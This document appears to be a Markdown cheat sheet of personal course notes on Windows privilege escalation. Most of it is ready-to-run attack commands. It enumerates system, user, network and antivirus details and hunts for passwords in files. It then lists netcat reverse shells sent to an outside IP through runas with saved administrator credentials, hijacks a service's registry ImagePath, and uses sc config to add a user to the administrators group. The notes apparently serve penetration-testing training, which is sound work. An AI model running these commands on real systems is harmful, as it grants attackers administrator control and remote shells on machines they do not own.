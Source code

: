 ### Windows Privesc TCM

## System Enumeration

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` 

**Pull up patches**

`wmic qfe`

wmic qfe get Caption,Description,HotFixID,InstalledOn

**List all drives**

`wmic logicaldisk`

wmic logicaldisk get Caption,description,providername

## User E numeration

`whoami` 

**Find user privileges**

`whoami /priv`

**Groups you belong to**

`whoami /groups`

**Find users on this machine**

`net user`

**See who is part of a group**

`net localgroup administrators`

## Network Enumeration

`ipconfig && ipconfig /all`

**Drop arp table**

`arp -a`

**Read routing table**

`route print`

**See ports**

`netstat -nao`

## Password Hunting

**Search current directory**

`findstr /si password *.txt *.ini *.config`

## A/V and Firewall Enumeration

**Check windows defender**

`sc query windefend`

**Look for A/V**

`sc queryex type= service`

**Check firewall state**

`netsh advfirewall dump`

**Check firewall rules**

`net firewall show config`

## Automated Enumeration Tools
| Exectuables   | PowerShell    | Other | 
| ------------- | ------------- | ------------- |
| winPEAS.exe   | Sherlock.ps1  | windows-exploit-suggest.py |
| Seatbelt.exe  | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 | |
|SharpUp.exe | | |

**Exploit Suggester**
`run post/multi/recon/local_exploit_suggester`

**Windows Linux Subsystem**
Can be used to escalate privileges

## Token Impersonation

What are tokens?
Tokens are temp keys taht allow you access to a system/network without having to provide creds each time.

Two types:
* Delegate - Create for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attaching a network drive or domain logon script

## RunAs

`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Users\Public\nc.exe -e cmd.exe x.x.x.x"`
`runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.14.16 9006"`
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -e cmd.exe x.x.x.x"`
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\root.txt > C:\Users\security\root.txt"`

## AlwaysInstallElevated 

**Running an MSI**

`msiexec /quiet /qn /i C:\Temp\setup.msi`

## Registry

**Compile c for windows on Kali**

`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`

**Add executable to image path**
 
 `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
 
 ## binPath
 
 **Check permissions on service** 
 `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
 
 Looking specifically for `SERVICE_CHANGE_CONFIG`
 
 **Change binpath**
 
 `sc config daclsvc binpath= "net localgroup administrators user /add"`
